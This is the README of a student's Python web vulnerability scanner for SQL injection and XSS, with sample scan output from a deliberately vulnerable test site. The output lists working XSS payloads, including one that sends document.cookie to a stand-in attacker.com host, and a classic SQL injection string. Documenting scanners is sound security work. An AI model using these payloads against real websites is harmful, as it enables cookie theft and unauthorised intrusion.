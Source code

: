 # CODTECH_ADVANCED_TASK_2
# Web Vulnerability Scanner

## Personal information 
- Name : Premkumar Soni
- Company : CODTECH IT SOLUTIONS PVT.LTD
- ID : CT08DBS
- Domain : Cyber Security & Ethical Hacking
- Duration: 20th Dec 2024 To 20th Jan 2025
- Mentor : Neela Santhosh kumar

## Overview

This is a simple Python-based tool designed to scan websites for common vulnerabilities, including SQL injection and Cross-Site Scripting (XSS). The tool uses various techniques to detect these vulnerabilities and generates a detailed report. It utilizes the `requests`, `BeautifulSoup`, and `pyfiglet` libraries for web scraping and logging purposes.

## Features

- **SQL Injection Detection**: Identifies SQL injection vulnerabilities by testing various SQL payloads in URL parameters.
- **Cross-Site Scripting (XSS) Detection**: Detects both reflected and stored XSS vulnerabilities by injecting common XSS payloads.
- **Form Scanning**: Scans HTML forms for potential XSS vulnerabilities.
- **Multi-Page Scanning**: The scanner follows links within the same domain to detect vulnerabilities across multiple pages.
- **Logging and Reporting**: Generates a detailed vulnerability report, including the type, severity, and evidence for each identified vulnerability.

## Installation

#### 1. Clone The repository : 

```bash 
git clone https://github.com/hipremsoni/CODTECH_ADVANCED_TASK_2.git
cd CODTECH_ADVANCED_TASK_2
```

#### 2. Install the required Python packages using `pip` :

```bash 
pip install -r requirements.txt 
```

#### 3. Run The Tool :
```bash 
python3 web_vuln_scanner.py 
```

### Prerequisites

- Python 3.x
- Pip (Python package installer)

The `requirements.txt` file should include:

```text
requests
beautifulsoup4
pyfiglet
colorama
```

## Usage

### Running the Scanner

1. Run the script:

```bash
python web_vuln_scanner.py
```

2. You will be prompted to enter the target website URL (e.g., `http://example.com`).

3. The scanner will analyze the website and its links, testing for common vulnerabilities such as SQL injection and XSS.

4. After the scan completes, a detailed report will be displayed on the terminal.

### Example

![alt text](image-1.png)
![alt text](image-2.png)

```bash
__        __   _      __     __     _       
\ \      / /__| |__   \ \   / /   _| |_ __
 \ \ /\ / / _ \ '_ \   \ \ / / | | | | '_ \
  \ V  V /  __/ |_) |   \ V /| |_| | | | | |
   \_/\_/ \___|_.__/     \_/  \__,_|_|_| |_|

 ____
/ ___|  ___ __ _ _ __  _ __   ___ _ __
\___ \ / __/ _` | '_ \| '_ \ / _ \ '__|
 ___) | (_| (_| | | | | | | |  __/ |
|____/ \___\__,_|_| |_|_| |_|\___|_|


- Created by Premkumar Soni
Welcome to the Web Application Vulnerability Scanner!

Enter the target website URL (e.g., http://example.com): http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com
[Scanning] http://testphp.vulnweb.com/privacy.php
2025-01-15 11:18:28,918 - ERROR - Error scanning http://testphp.vulnweb.com/privacy.php: 404 Client Error: Not Found for url: http://testphp.vulnweb.com/privacy.php
[Scanning] http://testphp.vulnweb.com/guestbook.php
[Scanning] http://testphp.vulnweb.com/userinfo.php
[Scanning] http://testphp.vulnweb.com/disclaimer.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/
[Scanning] http://testphp.vulnweb.com/categories.php
[Scanning] http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/
[Scanning] http://testphp.vulnweb.com/login.php
[Scanning] http://testphp.vulnweb.com/listproducts.php?cat=2
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
[Reflected XSS Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
[SQL Injection Detected] http://testphp.vulnweb.com/listproducts.php?cat=2
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1

 ____                    ____                       _
/ ___|  ___ __ _ _ __   |  _ \ ___ _ __   ___  _ __| |_
\___ \ / __/ _` | '_ \  | |_) / _ \ '_ \ / _ \| '__| __|
 ___) | (_| (_| | | | | |  _ <  __/ |_) | (_) | |  | |_
|____/ \___\__,_|_| |_| |_| \_\___| .__/ \___/|_|   \__|
                                  |_|

Target: http://testphp.vulnweb.com
Scan Date: 2025-01-15T11:18:48.820498
Pages Scanned: 10

Vulnerabilities Found:

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>alert('XSS')</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <svg/onload=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: "><img src=x onerror=alert(1)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>fetch('http://attacker.com?cookie='+document.cookie)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <img src=1 onerror=alert(document.cookie)>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>prompt(1)</script>
---

Type: Reflected XSS
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: High
Description: Reflected XSS vulnerability detected.
Evidence: Parameter 'cat' reflected payload: <script>confirm(1)</script>
---

Type: SQL Injection
URL: http://testphp.vulnweb.com/listproducts.php?cat=2
Severity: Critical
Description: SQL Injection vulnerability detected.
Evidence: Parameter 'cat' vulnerable to payload: ' OR '1'='1
```

## Acknowledgements

- `requests` for making HTTP requests.
- `BeautifulSoup` for parsing HTML.
- `pyfiglet` for generating ASCII art.
- `colorama` for adding color to terminal output.

---

### Notes

- The tool is intended for educational purposes only. Use it responsibly and only on websites you own or have explicit permission to test.
- This tool is a basic implementation of a web vulnerability scanner and can be extended with additional vulnerability detection techniques.

---
## Author 
- Premkumar soni


